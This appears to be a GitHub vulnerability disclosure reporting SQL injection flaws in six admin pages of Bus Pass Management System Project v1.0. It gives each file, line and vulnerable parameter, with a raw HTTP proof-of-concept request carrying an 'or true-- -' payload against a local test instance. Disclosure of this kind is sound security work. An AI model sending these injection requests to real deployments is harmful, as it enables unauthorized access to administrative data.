






# Bus-Vulnerabilities

# Author:
Javier Carabantes:  [@javicarabantes](https://twitter.com/javicarabantes).

## Short description
Multiple SQL injections detected in Bus Pass Management System Project v1.0


## Vulnerability description
Multiple files with different parameters were found where an SQL Injection vulnerability exists:

- buspassms/admin/view-enquiry.php
- buspassms/admin/pass-bwdates-reports-details.php
- buspassms/admin/changeimage.php
- buspassms/admin/search-pass.php
- buspassms/admin/edit-category-detail.php
- buspassms/admin/edit-pass-detail.php


## PoCs
A simple SQLi PoC is going to be executed on each URL: "or true-- -"


* File: buspassms/admin/view-enquiry.php **line 65**
```
vuln var: $vid
```

```
GET Request

GET /admin/view-enquiry.php?viewid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```



_________________


* File: buspassms/admin/pass-bwdates-reports-details.php **line 80**
```
vuln var: $fdate and $tdate
```

```
POST Request:

POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8083/admin/pass-bwdates-report.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://localhost:8083
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0

fromdate=2022-07-13&todate=2022-07-21'+or+true--+-&submit=
```



_________________


* File:  buspassms/admin/changeimage.php **line 82**
```
vuln var: $eid
```

```
GET Request:

GET /admin/changeimage.php?editid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

```




_________________


* File:  buspassms/admin/search-pass.php **line 89**
```
vuln var: $sdata
```

```
POST Request:

POST /admin/search-pass.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:8083
DNT: 1
Connection: close
Referer: http://localhost:8083/admin/search-pass.php
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

searchdata=-1%27+or+true--+-&search=

```


_________________


* File:  buspassms/admin/edit-category-detail.php **line 89**
```
vuln var: $eid
```

```
GET Request:

GET /admin/edit-category-detail.php?editid=-8%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```


_________________


* File:  buspassms/admin/edit-pass-detail.php **line 97**
```
vuln var: $eid
```

```
GET Request:

GET /admin/edit-pass-detail.php?editid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```


